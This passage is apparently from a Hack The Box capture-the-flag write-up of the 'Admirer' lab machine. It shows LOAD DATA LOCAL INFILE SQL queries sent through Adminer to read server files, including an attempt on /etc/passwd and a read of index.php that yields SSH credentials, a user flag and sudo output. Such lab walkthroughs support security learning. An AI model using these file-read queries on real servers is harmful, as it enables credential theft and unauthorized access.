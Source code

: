 > As you can see, I named my temporary database `TEMPDB` and I'm connected to my HTB private IP `10.10.14.6`.

#### Exploit

In order to perform a similar exploit as in the article [video](https://play.vidyard.com/2v2dccGr2NKWrXsVzkNn8w?disable_popouts=1&v=4.2.27&viral_sharing=0&embed_button=0&hide_playlist=1&color=FFFFFF&playlist_color=FFFFFF&play_button_color=2A2A2A&gdpr_enabled=1&type=inline&new_player_ui=1&autoplay=0&loop=0&muted=0&hidden_controls=0), we have to create a table by clicking on "Create table" link on the left of the page.

However there is no such file as `app/etc/local.xml` as we can see:

![Can't find file](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/admirer/error-file.png)

Let's be creative. What about `/etc/passwd`:

![Unable to open file](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/admirer/error-permission.png)

Arg! Let's try `admin_tasks.php` since we are in the same directory:

```sql
LOAD DATA LOCAL INFILE 'admin_tasks.php'
INTO TABLE TEMPDB.backup
FIELDS TERMINATED BY "\n"
```

![query success](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/admirer/query-success.png)

Bu there is nothing interesting:

![admin_tasks.php in SQL table](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/admirer/arg.png)

Looking at `../index.php`, we can see there are new credentials:

```sql
LOAD DATA LOCAL INFILE '../index.php'
INTO TABLE TEMPDB.backup
FIELDS TERMINATED BY "\n"
```

![new creds](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/admirer/new-pass.png)

- **username**: `waldo`
- **password**: `&<h5b~yK3F#{PaPB&dA}{H>`

Using these credentials we can log in to ssh:

![ssh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/admirer/ssh.png)

## User (`waldo`)

```bash
waldo@admirer:~$ cat user.txt 
2cf909ef8117cf88a7793227946a8fff
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
waldo@admirer:~$ 
```
